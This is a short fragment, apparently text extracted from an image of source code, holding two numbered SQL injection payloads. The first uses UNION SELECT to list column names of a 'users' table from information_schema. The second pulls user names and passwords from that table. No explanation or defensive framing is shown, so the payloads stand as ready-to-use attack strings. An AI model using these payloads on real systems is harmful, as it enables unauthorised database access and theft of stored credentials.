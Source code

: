 # 3
' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'users

# 4
' UNION SELECT user, password FROM users WHERE 1=1 and '1'=1'
